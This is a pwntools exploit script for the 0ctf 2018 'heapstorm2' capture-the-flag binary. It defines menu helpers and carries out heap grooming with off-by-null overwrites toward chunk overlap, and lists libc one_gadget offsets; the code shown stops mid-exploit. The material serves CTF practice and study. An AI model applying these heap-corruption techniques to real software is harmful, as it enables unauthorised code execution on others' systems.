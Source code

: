 exp

```python
from pwn import *

#r = remote("node3.buuoj.cn", 26141)
r = process("./0ctf_2018_heapstorm2")

context.log_level = 'debug'

elf = ELF("./0ctf_2018_heapstorm2")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
one_gadget_16 = [0x45216,0x4526a,0xf02a4,0xf1147]

menu = "Command: "
def add(size):
	r.recvuntil(menu)
	r.sendline('1')
	r.recvuntil("Size: ")
	r.sendline(str(size))

def delete(index):
	r.recvuntil(menu)
	r.sendline('3')
	r.recvuntil("Index: ")
	r.sendline(str(index))

def show(index):
	r.recvuntil(menu)
	r.sendline('4')
	r.recvuntil("Index: ")
	r.sendline(str(index))

def edit(index,content):
	r.recvuntil(menu)
	r.sendline('2')
	r.recvuntil("Index: ")
	r.sendline(str(index))
	r.recvuntil("Size: ")
	r.sendline(str(len(content)))
	r.recvuntil("Content: ")
	r.send(content)


add(0x18)#0
add(0x508)#1
add(0x18)#2
add(0x18)#3
add(0x508)#4
add(0x18)#5
add(0x18)#6

edit(1, 'a'*0x4f0+p64(0x500))
delete(1)
edit(0, 'a'*(0x18-12))
add(0x18)#1
add(0x4d8)#7
delete(1)
delete(2)
add(0x38)#1
add(0x4e8)#2

edit(4, 'a'*0x4f0+p64(0x500))
delete(4)
```